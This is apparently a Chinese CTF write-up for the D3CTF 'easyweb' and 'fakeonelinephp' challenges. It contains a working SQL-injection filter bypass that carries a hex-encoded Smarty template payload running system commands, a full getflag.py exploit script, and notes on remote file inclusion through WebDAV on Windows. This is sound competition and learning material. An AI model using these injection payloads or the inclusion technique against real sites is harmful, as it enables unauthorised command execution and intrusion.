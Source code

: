 从而可以构造刚才的`{{php}}echo 1;{{/php}}`用hex编码后利用sql注入绕过过滤，尝试模板注入。至于为啥是{{php}}，完全是试出来的，过程就不提了。

```sql
//下面的payload，是拿到shell后才知道的
mysql> select hex('{{php}}system("/readflag /flag");{{/php}}');
得到7B7B7068707D7D73797374656D28222F72656164666C6167202F666C616722293B7B7B2F7068707D7D
```

下面是一键getflag.py

```python
# coding=utf-8
from requests import session
from random import sample, randint
import string

url1 = 'http://275ed6fa96.easyweb.d3ctf.io/user/register'
url2 = 'http://275ed6fa96.easyweb.d3ctf.io/user/login'
url3 = 'http://275ed6fa96.easyweb.d3ctf.io/user/index'

u = session()
payload = ''.join(sample(string.ascii_letters, randint(7, 16))) #可能有被注册的，再跑一下
payload += "' un{ion sel{ect 0x7B7B7068707D7D73797374656D28222F72656164666C6167202F666C616722293B7B7B2F7068707D7D#"

u.post(url1, data={"username":payload, "password":"test"})
u.post(url2, data={"username":payload, "password":"test"})
print u.get(url3).content
#d3ctf{Th4at's_A_Si11y_P0p_chi4n}
```

看到flag，便可以知道预期解应该是触发反序列化，然后要挖掘POP链，这里是出题人忘记禁用`{php}`标签了。

然后反序列化的做法，暂时不知道。

## fakeonelinephp

只做了一半  
打开是一行php代码：

```php
 <?php ($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__);
```

一看就想到了hitcon-ctf-2018的one-line-php-challenge，代码一模一样，然而不可能出原题。

当我在自己的vps上放了个txt文件内容是`@<?php echo phpinfo(); ?>`然后尝试远程文件包含时，出现了报错：

![1](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/8a7875fcf145c2486c7d51db9b3dcc2e.JPG)

发现是Windows的服务器(WNMP)，allow_url_include=0不能远程包含，突然想到：[RFI 绕过 URL 包含限制 getshell](https://paper.seebug.org/923/)

经过一段时间的研究后得知，只有Windows下的文件包含有这个问题这个题可以搞，但smb协议不能用因为445端口全被运营商封了...然后才查到还可以用webdav来搞。

```text
WebDAV ，全称是Web-based Distributed Authoring and Versioning，维基百科上对它的解释是这样的：基于Web的分布式编写和版本控制（WebDAV）是超文本传输协议（HTTP）的扩展，有利于用户间协同编辑和管理存储在万维网服务器文档。
```
